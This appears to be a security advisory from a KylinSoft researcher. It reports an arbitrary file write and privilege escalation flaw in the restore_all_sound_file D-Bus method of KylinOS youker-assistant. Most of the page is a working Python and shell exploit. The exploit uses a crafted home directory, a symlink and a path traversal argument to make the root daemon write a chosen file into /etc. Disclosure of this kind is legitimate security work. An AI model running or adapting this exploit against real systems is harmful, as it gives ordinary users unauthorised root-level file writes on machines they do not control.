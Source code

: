# Kylin OS youker-assistant arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. The restore_all_sound_file in this program has an arbitrary file writing vulnerability, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
- youker-assistant < 3.0.2-0kylin6k70-23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def run_cmd(cmd):
    os.system(cmd)

def copy_file(target_dir, src_file):
    copy_cmd=f'''
        srcDir=$(mktemp -d)
        homeDir=/tmp/fakeroot/$srcDir
        srcFile={src_file}
        targetDir={target_dir}
        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.set_homedir "$homeDir"

        # prepre src dir
        mkdir -p $srcDir/stereo
        cp $srcFile $srcDir/stereo

        # prepare target dir
        mkdir -p $homeDir
        mkdir -p $homeDir/.sounds..
        cd $homeDir
        ln -s $targetDir stereo

        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.restore_all_sound_file "../../../..$srcDir"

    '''
    run_cmd(copy_cmd)

os.system('touch restore_all_sound_file.txt')
copy_file("/etc", os.path.realpath("./restore_all_sound_file.txt"))
os.system('ls -l /etc/restore_all_sound_file.txt')
```
